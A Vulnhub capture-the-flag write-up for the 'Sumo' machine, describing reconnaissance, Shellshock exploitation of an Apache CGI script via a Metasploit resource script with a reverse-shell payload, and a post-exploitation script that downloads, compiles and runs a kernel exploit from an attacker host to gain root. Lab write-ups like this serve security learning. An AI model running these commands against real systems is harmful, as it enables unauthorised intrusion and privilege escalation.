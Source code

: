 # Vulnhub Writeup #5: Sumo

## Key lessons learned:
- Looking only for 200s in gobuster caused me to miss CGI-Bin dir. 
- Not enabling recursion in your automations can make enumeration a pain
- Large desire to read approaches that didn't use Nikto to discover the mod-cgi vulnerability
-Modify shell path early on to avoid "missing" binaries with ```export PATH=$PATH:/bin:/usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin```


## MITRE Att&ck Overview

![](2021-10-28-01-58-47.png)
MITRE ATT&CK matrix made with [Mitre-Attack-Navigator](https://mitre-attack.github.io/attack-navigator)

## Reconnaissance
```
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 5.9p1 Debian 5ubuntu1.10 (Ubuntu Linux; protocol 2.0)
80/tcp open  http    Apache httpd 2.2.22 ((Ubuntu))
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

####Techniques and procedures
- Opened up ZAP and crawled host's port 80 HTTP server; found nothing of note. 
- Nikto 
  - found this server was vuln to shellshock
  - was able to identify a directory /cgi-bin/test, as well as a file test.sh
    - I wasn'table to figure out a way to identify these files without Nikto, or what method Nikto used to find them, but it may be related to mod_negotiate being in use on the Apache server
- Gobuster ( #Crawling )
  - Didn't get 200s for pages other than index.html with Seclists Discovery Wordlists
  - After having success with Nikto, wrote a script at  [Reconnaissance](Reconnaissance.md) which was able to identify this folder, as well as a default "it works! file". From here there seem to be 2 ways to find the vector:
  1) Nikto
  2) Knowing that CGI is extremely vulnerable
No other write-ups I've found have illustrated using pure deduction to figure this vector out.

### Initial Access, Execution & Command and Control
Scanned for shellshock vulnerabilities in MSF (Searchsploit could've been used here as well):
```
search shellshock
```

The ```apache_mod_cgi_bash_env_exec``` exploit was returned as an available msf module.

###### Metasploit Resource Script for exploitation
```
sudo msfconsole
use exploit/multi/http/apache_mod_cgi_bash_env_exec
set PAYLOAD payload/generic/shell_reverse_tcp
set TARGETURI /cgi-bin/test/test.cgi
set RHOST 172.16.2.44
set LPORT 4444
set CVE CVE-2014-6278
exploit
sessions -i 1 -s /home/kali/targetz/sumo/sumo_post.sh
```
#MetasploitScripts


## ** Discovery > Collection > Exfiltration**
- Checked running processes with ps -aux. Didn't find anything noteworthy. 
- Home directory was also quite bare. 
- Checked listening connections which didn't find anything noteworthy. 
- Checked distro/kernel version and compared it against searchsploit, which turned up an exploit
- Finally just wrote a script that would execute post_enum for me at [Discovery](Discovery.md)

## Privilege Escalation
Simply looking up the kernel version in SearchSploit uncovered kernel exploit based LPE
```text 
searchsploit ubuntu 3.2.0 
```


### sumo_post.sh - privilege escalation script
```bash
# sumo_post.sh 
# move here for dirty work
cd /tmp
R="172.16.2.45"
wget $R/pwn.c
chmod +x pwn.c
# fix path, gcc can't see ld binary from tmp 
export PATH=$PATH:/bin:/usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin
/usr/bin/gcc pwn.c -O2 -o vnik
./vnik 0  # results in root shell
python -c 'import pty; pty.spawn("/bin/sh")'
```

## Technical Issues Encountered
Encountered 
``` 
collect2: cannot find 'ld' when compiling in /tmp/
```

Solution at  [stackoverflow](https://stackoverflow.com/questions/35970824/gcc-collect2-fatal-error-cannot-find-ld)

Two Options:
1) modify path
eg. export PATH=$PATH:/bin:/usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin 

 2) copy ld binary to tmp

Tags
#vulnhub #linux